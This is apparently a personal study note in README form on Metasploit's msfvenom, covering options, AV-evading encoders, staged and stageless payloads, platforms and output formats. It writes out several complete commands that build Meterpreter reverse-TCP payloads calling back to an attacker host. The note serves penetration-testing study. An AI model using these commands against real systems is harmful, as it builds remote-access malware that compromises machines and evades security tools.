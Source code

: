 # msfvenom-basics

# msfvenom payload syntax 
msfveno >> Metasploit standalone payload generator tool.

# Types: payloads, encoders,nops, platforms, archs, encrypt, formats.
Encoders: Encoders are the various algorithms and encoding schemes that Metasploit can use to re-encode the payloads. In this way, we can obfuscate the intent of the payload to evade AV and bypass security measures in place, no detection. 
List encoders >> msfvenom -l encoders

# Msfvenom options >> 
-p (payload) Specifies the payload to use. Example: -p windows/meterpreter/reverse_tcp
-e (encoder): Specifies an encoder to use for the payload. Example: -e x86/shikata_ga_nai
-f (format): Specifies the format of the output payload. Example: -f exe (Windows executable), -f elf (Linux executable), -f raw (raw binary), -f js (JavaScript), -f apk (Android), etc.
-a (architecture): Specifies the architecture for the payload. Example: -a x86 (32-bit), -a x64 (64-bit),
-s (space): Specifies the maximum size of the payload. Example: -s 300
--platform: Specifies the platform for the payload (e.g., Windows, Linux). Example: --platform windows
-x (template): Uses a specified executable as a template to embed the payload into. Example: -x /path/to/template.exe

# Payloads
Payloads: malicious scripts that an attacker uses to interact with a target machine in order to compromise it. The syntax of the payload caught my attention for further reading. 
# msfvenom -p <PAYLOAD> LHOST=<attacker_IP> LPORT=<attacker_PORT> -f <FORMAT> > <OUTPUT_FILE>

# Two major types of Payloads  
# Staged: They are commonly identified by a forward slash (/) in their name (e.g., windows/meterpreter/reverse_tcp). In the form of stager and stage. 
Stager >> Initial part of the payload, which sets up a connection between the target and the attacker. This stager is usually small and simple, designed to fit within tight constraints and establish a communication channel.(establishes the connection and then activates the payload that will do the main work).
Stage >> The larger part of the payload, which contains the main functionality (e.g., Meterpreter). Once the stager sets up the connection, it downloads and executes the stage from the attacker's machine (does the transaction).
Syntax: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > /path/to/output.exe
# Stageless: The use of _ instead of the second / in the payload name such as windows/meterpreter_reverse_tcp. Payloads contain the entire payload in a single, self-contained package. There is no separate stager and stage; everything needed to execute the payload is included in the initial file.
Syntax: msfvenom -p windows/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > /path/to/output.exe
# Additionals

# Platforms
In msfvenom a payload defines the actions that will be performed on the target machine once the exploit is successful. For this reason msfvenom has platform options: a platform is loosely an operating system(mac, windows, linux etc) or scripting language(eg php, ruby etc) with a few exceptions, such as netware. When building our custom payload, we must build it specifically for the target operating system. We can have a customized payload using the --platform <targetplatform> syntax to designate our target platform.

# Architectures
The architecture of a payload specifies the type of CPU it is designed to run on. Common architectures include:
x86: 32-bit Intel/AMD processors.
x64: 64-bit Intel/AMD processors.
armle: ARM little-endian processors.
mips: MIPS processors.
cmd: Command-line interface architectures, typically for scripting.
# Example: Windows x86 (32-bit) Payload 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -a x86 -f exe > /home/user/Desktop/windows_x86_payload.exe

# Formats
The format specifies the type of file that will be generated by msfvenom. Different formats are suitable for different target environments. When we build our custom payload, we will use the -f switch and designate the format.
exe: Windows executable.
# Example: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > /home/user/Desktop/payload.exe
elf: Linux executable.
raw: Raw binary format.
macho: macOS executable.
apk: Android package.
python: Python script. 
# Example : msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > /home/user/Desktop/payload.py
java: Java bytecode.
powershell: PowerShell script.
asp: ASP script.
jsp: JSP script.






Steps
Installed msfvenom.No evidence, but make sure to install from trusted sources..
Basic commands >> man msfvenom;msfvenom -h; list payloads >> msfvenom -l <types> >> msfvenom -l payloads
Payload creation>> os type/language type
connectio
msfvenom -p <PAYLOAD> LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f <FORMAT> > <OUTPUT_FILE>

Resources I utilized
https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/



understanding 

